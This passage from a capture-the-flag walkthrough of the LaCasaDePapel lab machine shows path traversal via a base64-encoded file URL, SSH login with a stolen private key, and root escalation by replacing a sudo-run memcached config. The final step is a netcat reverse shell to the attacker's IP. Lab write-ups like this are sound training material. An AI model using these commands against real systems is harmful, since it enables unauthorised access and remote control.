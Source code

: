 We learned by decoding how to make a request that downloads a specific file and can read the user flag this way:

```
echo -ne "../user.txt" | base64
Li4vdXNlci50eHQ=
https://10.10.10.131/file/Li4vdXNlci50eHQ=
```

## Root Flag

In the .ssh folder we can find a private key and download it. However it does not seem to belong to the user "berlin", so we try it for all users and eventually succeed as "professor":

```
➜  lacasadepapel ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|

lacasadepapel [~]$ whoami
professor
```

We inspect the running processes and find memcached running in combination with several memcached files in the home directory of professor:

```
8221 nobody    0:02 /usr/bin/node /home/professor/memcached.js
-rw-r--r--    1 root     root            88 Jan 29 01:25 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29 01:24 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29 01:31 node_modules
```

We also see that in "/etc/crontabs" an entry called "professor" exists which we can not read. Looking at the content of memcached.ini we see that it seems to run a command with sudo:

```
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

If we could modify the command we could probably get command execution in the context of root. When looking at the file permissions we see that we do not have permissions to modify the file. There is however a suid bit set on the home folder of professor (which is very uncommon). This means we can, despite having no direct access to the file, move and replace it.

We backup the original file, modify it, and get a shell as root:

```
mv memcached.ini memcached.ini.bak
echo -e "[program:memcached]
command = sudo nc 10.10.16.66 6000 -e /bin/sh" > memcached.ini
```